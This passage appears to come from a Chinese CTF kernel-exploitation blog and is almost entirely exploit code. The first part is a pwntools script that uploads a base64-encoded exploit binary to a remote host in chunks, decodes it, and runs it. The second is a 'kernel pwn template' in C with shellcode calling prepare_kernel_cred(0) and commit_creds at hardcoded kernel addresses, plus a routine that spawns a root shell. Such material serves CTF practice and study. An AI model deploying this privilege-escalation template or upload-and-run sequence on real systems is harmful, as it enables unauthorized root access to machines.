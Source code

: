 ```python
        p.sendline("echo -n \"" + exp[i:i + 0x200].decode() + "\" >> /tmp/b64_exp")
        count += 1
        log.info("count: " + str(count))

    for i in range(count):
        p.recvuntil("/ $")
    
    p.sendline("cat /tmp/b64_exp | base64 -d > /tmp/exploit")
    p.sendline("chmod +x /tmp/exploit")
    p.sendline("/tmp/exploit ")
    break

p.interactive()
```

## 特点四： kernel pwn模板<br>
```c
// gcc -fcf-protection=none -masm=intel -static xxx.c -o xxx
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>  // define open, O_RDONLY, O_WRONLY, O_CREAT 
#include <unistd.h> // read, write
#include <sys/ioctl.h> // ioctl

__attribute__((naked, noinline)) void privilege_escalation_kernel_shellcode(){
    __asm__ (
        "mov rbx, 0xffffffff810895e0;" //prepare_kernel_cred_addr
        "mov rdi, 0;"
        "call rbx;"     //prepare_kernel_cred(0)
        "mov rdi, rax;" 
        "mov rbx, 0xffffffff810892c0;" //commit_creds_addr
        "call rbx;"
        "nop;"
        "ret;"
    );
}

void get_root(){
    if(getuid()!=0){
        printf("failed to get root!\n");
        exit(0);
    }
    printf("get root success! execve shell....\n");
    system("/bin/sh");
    exit(0); //exit normally
}
```


<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>